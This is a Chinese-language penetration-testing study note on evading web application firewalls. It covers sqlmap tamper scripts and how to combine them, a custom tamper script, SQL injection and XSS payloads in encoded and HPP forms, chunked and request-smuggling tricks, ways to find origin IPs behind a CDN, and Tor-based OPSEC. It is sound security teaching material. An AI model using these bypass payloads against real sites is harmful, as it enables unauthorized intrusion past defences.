



# 09-WAF绕过与高级技巧

## 目录
- [[#一、WAF检测与识别|一、WAF检测与识别]]
 - [[#1.1 WAF工作原理|1.1 WAF工作原理]]
 - [[#1.2 wafw00f与手工检测|1.2 wafw00f与手工检测]]
- [[#二、sqlmap Tamper脚本深度解析|二、sqlmap Tamper脚本深度解析]]
 - [[#2.1 Tamper分类详解|2.1 Tamper分类详解]]
 - [[#2.2 Tamper组合策略|2.2 Tamper组合策略]]
 - [[#2.3 自定义Tamper脚本|2.3 自定义Tamper脚本]]
- [[#三、HTTP参数污染（HPP）|三、HTTP参数污染（HPP）]]
- [[#四、编码绕过技术|四、编码绕过技术]]
 - [[#4.1 URL与Unicode编码|4.1 URL与Unicode编码]]
 - [[#4.2 十六进制与Base64编码|4.2 十六进制与Base64编码]]
 - [[#4.3 HTML实体编码|4.3 HTML实体编码]]
- [[#五、分段传输绕过|五、分段传输绕过]]
- [[#六、协议层绕过|六、协议层绕过]]
 - [[#6.1 HTTP方法与版本切换|6.1 HTTP方法与版本切换]]
 - [[#6.2 Content-Type操纵与Host头绕过|6.2 Content-Type操纵与Host头绕过]]
 - [[#6.3 IP绕过：寻找真实源站|6.3 IP绕过：寻找真实源站]]
- [[#七、云WAF特殊绕过|七、云WAF特殊绕过]]
- [[#八、流量混淆与OPSEC|八、流量混淆与OPSEC]]
- [[#九、WAF绕过实战演练|九、WAF绕过实战演练]]
- [[#十、绕过技术总览速查|十、绕过技术总览速查]]

---

## 一、WAF检测与识别

### 1.1 WAF工作原理

WAF（Web Application Firewall）位于客户端和Web服务器之间，分析HTTP流量并拦截恶意请求。参见 [[../网安基础知识/02-Web技术基础|Web技术基础]] 了解Web应用架构。



**WAF部署模式：**
1. **反向代理模式**（最常见）— 客户端 → WAF → Web服务器
2. **透明模式（Bridge）**— 客户端 → WAF（透明桥接）→ Web服务器
3. **嵌入式模式（Plugin/Module）**— 作为Web服务器模块（如ModSecurity）
4. **云WAF（CDN集成）**— 客户端 → Cloud CDN/WAF → 源站

**WAF检测层：** 协议合规检查 → 签名匹配 → 规则引擎 → 行为分析 → 机器学习

### 1.2 wafw00f与手工检测

```bash
# 基本WAF检测
wafw00f http://example.com

# 详细输出 / 全部检测方法 / 批量
wafw00f -v http://example.com
wafw00f -a http://example.com
wafw00f -i targets.txt

# 代理 / UA / Cookie / JSON输出
wafw00f -p http://127.0.0.1:8080 http://example.com
wafw00f -H "User-Agent: Custom/1.0" http://example.com
wafw00f -o waf_result.json -f json http://example.com
```

**手工WAF检测方法：**

**方法1: 发送恶意payload观察响应**
```bash
curl -v "http://example.com/?id=1' OR '1'='1"
# WAF拦截特征: 403/406、自定义错误页、空响应、连接被重置
```

**方法2: 检查响应头中的WAF特征**
```bash
curl -I http://example.com
# 寻找: X-CDN, X-Sucuri-ID, Server: cloudflare
# CF-Ray (Cloudflare), X-Amz-Cf-Id (AWS)
# Set-Cookie: __cfduid= (Cloudflare), citrix_ns_id (Citrix)
```

**方法3: 大小写变化检测**
```html
<script>alert(1)</script> → 可能被拦截
<ScRiPt>alert(1)</ScRiPt> → 如果也拦截，WAF规则不够精确
```

**方法4: HTTP版本差异测试**
```bash
echo -e "GET /?id=1' HTTP/1.0\r\nHost: target.com\r\n\r\n" | nc target.com 80
```

**方法5: 溢出测试** — 超长URL超过WAF缓冲区限制；超多参数绕过参数数量限制。

**常见WAF应对策略速查：**

| WAF类型 | 绕过策略 |
|---------|---------|
| Cloudflare | 寻找真实IP（历史DNS/SSL证书）、CloudFlair工具、子域名绕过 |
| ModSecurity | CRS规则集已知绕过模式、大小写/编码绕过 |
| Imperva | HTTP/2、payload截断、分段传输 |
| F5 Big-IP | 特殊URL编码、HTTP Smuggling |
| AWS WAF | 超长payload、盲SQL（基于时间） |
| 通用WAF | 多编码组合、分段绕过 |

---

## 二、sqlmap Tamper脚本深度解析

### 2.1 Tamper分类详解

tamper脚本是sqlmap中用于修改payload以绕过WAF的插件。ArchStrike中的sqlmap包含60+内置tamper脚本。

```bash
# 查看所有tamper
sqlmap --list-tampers
```

**分类1: 空格绕过类**

| Tamper | 转换效果 | 适用场景 |
|--------|---------|---------|
| `space2comment.py` | 空格 → `/**/` | 多数WAF |
| `space2plus.py` | 空格 → `+` | 简单WAF |
| `space2randomblank.py` | 空格 → `%09`/`%0A`随机 | 签名匹配型WAF |
| `space2hash.py` | 空格 → `#随机串%0A` | MySQL + ModSecurity |
| `space2mysqldash.py` | 空格 → `--%0A` | MySQL |

**分类2: 关键词绕过类**

| Tamper | 转换效果 |
|--------|---------|
| `randomcase.py` | UNION → UnIoN |
| `equaltolike.py` | `=` → `LIKE` |
| `between.py` | `> < =` → `BETWEEN` |
| `apostrophemask.py` | `'` → `%EF%BC%87`（UTF-8宽字符） |
| `apostrophenullencode.py` | `'` → `%00%27` |

**分类3: 编码绕过类**

| Tamper | 转换效果 |
|--------|---------|
| `charencode.py` | `UNION` → `%55%4E%49%4F%4E`（URL编码） |
| `charunicodeencode.py` | `UNION` → `%u0055%u004E...`（Unicode） |
| `chardoubleencode.py` | `UNION` → `%2555%254E...`（双重URL编码） |
| `base64encode.py` | `UNION` → `VU5JT04gU0VMRUNU`（Base64） |

**分类4: 数据库特定类**

| Tamper | 转换效果 | 适用 |
|--------|---------|------|
| `versionedkeywords.py` | `UNION` → `/*!UNION*/` | MySQL |
| `versionedmorekeywords.py` | 更多版本化注释 | MySQL |
| `modsecurityversioned.py` | `1 AND 2>1` → `1 /*!30874AND 2>1*/` | ModSecurity |

**分类5: 其他技巧类**

| Tamper | 用途 |
|--------|------|
| `xforwardedfor.py` | 伪造X-Forwarded-For规避IP频率限制 |
| `nonrecursivereplacement.py` | UNION → UNIUNIONON（非递归替换绕过） |
| `multiplespaces.py` | UNION SELECT（多个空格） |
| `luanginx.py` | UNION → UNIOUNIONN（特定nginx+lua） |

### 2.2 Tamper组合策略

```bash
# 轻度绕过（基础防护）
sqlmap -u "URL" --tamper=space2comment,randomcase

# 中度绕过（ModSecurity类WAF）
sqlmap -u "URL" --tamper=space2comment,randomcase,versionedkeywords

# 深度绕过（企业级WAF）
sqlmap -u "URL" \
 --tamper="space2comment,randomcase,charencode,versionedkeywords,equaltolike"

# 极限绕过（多层防护）
sqlmap -u "URL" \
 --tamper="apostrophemask,chardoubleencode,equaltolike,greatest,\
multiplespaces,nonrecursivereplacement,randomcase,space2comment,\
space2randomblank,versionedkeywords"
```

**tamper组合实验方法：**
1. 先用无tamper确认注入点 → 如果被拦截看到403/timeout
2. 尝试单个tamper：`--tamper=space2comment --batch`
3. 通过Burp观察效果：`--tamper=space2comment --proxy="http://127.0.0.1:8080"`
4. 逐步增加tamper直到成功
5. 如果所有组合失败：降低level（`--level=1`）、降低risk（`--risk=1`）、增加延迟（`--delay=5`）、使用时间盲注（`--time-sec`）、更换攻击时段

> 注意：tamper越多，payload膨胀越严重，可能被WAF基于长度拦截。建议先用2-3个tamper测试，逐步增加。

### 2.3 自定义Tamper脚本

创建 `/home/a/custom_waf_bypass.py`：

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
 pass

def tamper(payload, **kwargs):
 """
 自定义绕过: 将SQL关键字用注释包裹 + 随机大小写
 """
 if payload:
 payload = payload.replace("AND", "AnD")
 payload = payload.replace("OR", "oR")
 payload = payload.replace("SELECT", "SEL/**/ECT")
 payload = payload.replace("UNION", "UN/**/ION")
 return payload
```

```bash
# 使用自定义tamper
sqlmap -u "URL" --tamper=/home/a/custom_waf_bypass.py

# 单独测试tamper脚本
python3 -c "
from custom_waf_bypass import tamper
print(tamper('1 AND 1=1 UNION SELECT 1,2,3'))
"
# 输出: 1 AnD 1=1 UN/**/ION SEL/**/ECT 1,2,3
```

---

## 三、HTTP参数污染（HPP）

HTTP参数污染通过发送多个同名参数来绕过WAF或改变应用程序逻辑。



不同平台解析行为：PHP/Apache取最后 → `id=2`；ASP.NET/IIS合并 → `id=1,2`；JSP/Tomcat取第一；Flask取第一；Express转数组。

**HPP绕过示例：**

```bash
# 场景1: SQL注入WAF绕过
# WAF看到: ?id=1' UNION SELECT... (被拦截)
# 攻击发送: ?id=1&id=1' UNION SELECT...
# → WAF检查第一个id=1 → 安全 → 放行
# → 应用解析最后一个id=1' UNION SELECT... → 注入执行

# 场景2: XSS WAF绕过
# ?q=test&q=<script>alert(1)</script>

# 场景3: URL编码参数污染
# ?id=1&id=%31%27%20%55%4e%49%4f%4e...

# 场景4: HPP + 其他技术组合
# ?id=1&id=1'/**/UNION/**/SELECT...
# ?id=1&id=1'%00UNION SELECT...
# ?id=1&id=%31%27%20%55%4e%49%4f%4e...
```

---

## 四、编码绕过技术

### 4.1 URL与Unicode编码

```bash
# 单次URL编码
原始: <script>
编码: %3C%73%63%72%69%70%74%3E

# 双重URL编码
%3C → %253C

# Unicode UTF-8宽字节
原始: ' (单引号)
宽字节: %EF%BC%87 (MySQL GBK场景)

# UTF-16
原始: <script>
UTF-16BE: %00<%00s%00c%00r%00i%00p%00t%00>
```

URL编码绕过场景：WAF只检查解码前的流量；WAF解码一次后检查但应用解码两次；不同组件解码次数不一致。

### 4.2 十六进制与Base64编码

```sql
-- SQL十六进制（MySQL）
原始: admin
Hex: 0x61646d696e

-- Base64参数编码
原始: 1' OR '1'='1
Base64: MScgT1IgJzEnPScx
请求: ?id=MScgT1IgJzEnPScx
```

### 4.3 HTML实体编码

```html
< → &lt;
> → &gt;
" → &quot;
' → &#39; / &#x27;

<!-- 混合编码绕过XSS过滤器 -->

```

**多编码测试流程：** 无编码 → URL编码 → 双重URL编码 → Unicode编码 → Hex编码 → 混合编码 → 两两组合直到绕过。

---

## 五、分段传输绕过

HTTP/1.1的Chunked Transfer Encoding允许将HTTP body分成多个块发送。

```bash
# 正常POST
POST /vuln.php HTTP/1.1
Content-Length: 31

id=1' UNION SELECT 1,2,3 --

# 分块传输
POST /vuln.php HTTP/1.1
Transfer-Encoding: chunked

1f
id=1' UNION SELECT 1,2,3 --
0
```

WAF可能不支持chunked解析导致绕过，或重组所有chunk（需结合编码进一步绕过）。

**curl测试分块传输：**
```bash
curl -X POST http://target.com/vuln.php \
 -H "Transfer-Encoding: chunked" \
 -d "id=test' OR '1'='1"
```

**HTTP请求走私（Request Smuggling）：**

利用前端代理（WAF/CDN）和后端服务器对HTTP请求边界解析不一致。

| 类型 | 前端解析 | 后端解析 |
|------|---------|---------|
| CL.TE | Content-Length | Transfer-Encoding |
| TE.CL | Transfer-Encoding | Content-Length |
| TE.TE | Transfer-Encoding | Transfer-Encoding（处理不一致）|

请求走私可用于：绕过前端WAF、缓存投毒、窃取其他用户请求、反射型XSS扩大化。

---

## 六、协议层绕过

### 6.1 HTTP方法与版本切换

```bash
# HTTP方法绕过（WAF只检查GET/POST）
curl -X PUT -d "id=1' OR '1'='1" http://target.com/page.php
curl -X PATCH -d "id=1' OR '1'='1" http://target.com/page.php

# HTTP/1.0 vs HTTP/1.1
echo -e "GET /page.php?id=1' HTTP/1.0\r\nHost: target.com\r\n\r\n" | nc target.com 80
```

### 6.2 Content-Type操纵与Host头绕过

```bash
# 修改Content-Type混淆WAF

# multipart/form-data（WAF可能不检查）
Content-Type: multipart/form-data; boundary=X
--X
Content-Disposition: form-data; name="id"

1' OR '1'='1
--X--

# application/json（WAF检查JSON不充分）
Content-Type: application/json
{"id": "1' OR '1'='1"}

# Host头绕过
# 绕过1: 绝对URI
GET http://protected-domain.com/page.php?id=1' HTTP/1.1
Host: 127.0.0.1

# 绕过2: 重复Host头
GET /page.php?id=1' HTTP/1.1
Host: protected-domain.com
Host: 127.0.0.1
```

### 6.3 IP绕过：寻找真实源站

对于云WAF（Cloudflare等），直接找到源站IP绕过WAF：

**方法1: DNS历史记录**
```
https://securitytrails.com/ → 历史DNS A记录
https://dnsdumpster.com/ → DNS枚举
```

**方法2: SSL证书查询**
```
https://crt.sh/?q=%25.example.com
寻找非Cloudflare的IP
```

**方法3: 子域名Fuzzing** — 子域名可能直接指向源站IP

**方法4: 邮件头分析** — 发送找回密码邮件 → 查看邮件源码 → 可能含源站IP

**方法5: 搜索引擎缓存** — `site:example.com` → 早于CDN的历史缓存

```bash
# CloudFlair工具找真实IP
cloudflair example.com
```

---

## 七、云WAF特殊绕过

**Cloudflare绕过：**
- 使用CloudFlair工具：`cloudflair example.com`
- 子域名绕过：`direct.example.com` 可能未经过CF
- HTTP/2：Cloudflare WAF对HTTP/2某些特性支持不完善
- URL路径绕过：`/admin` → `//admin`

**AWS WAF绕过：**
- 规则长度限制 → 超长payload可能绕过
- 分段编码：AWS WAF对chunked处理历史有问题

**Imperva（Incapsula）绕过：**
- HTTP Smuggling（历史CL.TE走私漏洞）
- 特殊URI编码字符

---

## 八、流量混淆与OPSEC

### 扫描器行为伪装

```bash
# 随机User-Agent
sqlmap -u "URL" --random-agent

# 自定义延迟
sqlmap -u "URL" --delay=2 --randomize=0.5

# 单线程最低调
sqlmap -u "URL" --threads=1

# 使用Tor网络
sqlmap -u "URL" --tor --tor-type=SOCKS5 --check-tor

# 代理链（Burp → proxychains → Tor）
sqlmap -u "URL" --proxy=http://127.0.0.1:8888

# nikto自定义UA
nikto -h URL -useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64)..."
```

### 请求频率控制

正常用户 vs 扫描器：用户每秒0.1-1个请求随机间隔 vs 扫描器每秒10-100个请求固定间隔。

伪装策略：随机延迟 `--delay=1 --randomize=0.5`；分时段扫描；模拟用户浏览模式；混合低并发。

### OPSEC检查清单

- [ ] 是否使用代理/VPN隐藏真实IP？
- [ ] 是否确认了授权范围？
- [ ] 是否记录了操作日志？
- [ ] 是否使用了非默认User-Agent？
- [ ] 是否控制了请求频率避免DoS？
- [ ] 是否在扫描前做了WAF检测？
- [ ] 是否清理了测试后遗留的文件？
- [ ] 是否在非工作时间（业务低谷）进行测试？
- [ ] 是否有应急联系人和中止机制？

---

## 九、WAF绕过实战演练



**实战步骤：**

```bash
# Step 1: WAF检测
wafw00f -v http://target-with-waf.com

# Step 2: 确认WAF工作
curl "http://target.com/?id=1' OR '1'='1"
# 预期: 403 Forbidden → WAF正常工作

# Step 3: 测试空格绕过
curl "http://target.com/?id=1'/**/OR/**/'1'='1"
# 如果是200 → 空格绕过成功!

# Step 4: 测试大小写
curl "http://target.com/?id=1' oR '1'='1"

# Step 5: 测试URL编码
curl "http://target.com/?id=1%27%20OR%20%271%27=%271"

# Step 6: 测试HPP
curl "http://target.com/?id=1&id=1' OR '1'='1"

# Step 7: sqlmap + tamper测试
sqlmap -u "http://target.com/?id=1" \
 --tamper=space2comment,randomcase \
 --proxy="http://127.0.0.1:8080" \
 --delay=2 --random-agent

# Step 8: Burp观察分析
# 在Burp HTTP History中:
# - 哪些请求被WAF拦截? (403, 406)
# - 哪些请求成功到达后端? (200, 302, 500)
# - 分析成功payload的特征 → 调整tamper组合

# Step 9: 确定最佳组合
# 例: space2comment + versionedkeywords + randomcase
# 记录: 空格绕过=有效, HPP=部分有效, 双重URL编码=部分有效
```

---

## 十、绕过技术总览速查

| 绕过技术 | 适用场景 |
|---------|---------|
| 大小写变换（SeLeCt） | 基础WAF/简单规则 |
| 注释插入（SEL/**/ECT） | 中级WAF/ModSecurity |
| 空白字符替换（%09, %0A, %0D） | 中级WAF |
| URL编码（%55...） | 中级WAF/边缘WAF |
| 双重URL编码（%2555...） | 高级WAF/某些CDN |
| Unicode编码 | 宽字节场景/老旧WAF |
| Base64编码 | 特定应用场景 |
| HTTP参数污染（HPP） | 多层架构 |
| HTTP请求走私 | 代理+后端架构 |
| 分块传输 | 某些WAF不支持chunked |
| HTTP方法变换（PUT/PATCH） | 简单WAF只检查GET/POST |
| Content-Type篡改 | WAF检查不充分的类型 |
| 协议降级（HTTP/1.0） | 特定WAF |
| Host头绕过 | 虚拟主机/云WAF |
| 源站IP直连 | 云WAF（CDN前置） |
| 超长payload | 规则引擎长度限制 |
| Null Byte注入（%00） | 老旧WAF/老旧后端 |
| 时序绕过（基于时间盲注） | 检测所有payload的WAF |
| 外带通道（DNS/HTTP盲打） | 无回显+有WAF |

---

**全部模块学习路线总结：**

```
HTTP基础 → 信息收集 → 漏洞扫描 → SQL注入 → XSS/CSRF → 文件包含/命令注入 → 认证攻击 → 综合实战 → WAF绕过
```

[[../总目录与快速查询|← 返回总目录]] | 上一模块：[[08-Web渗透综合实战|08-Web渗透综合实战]]
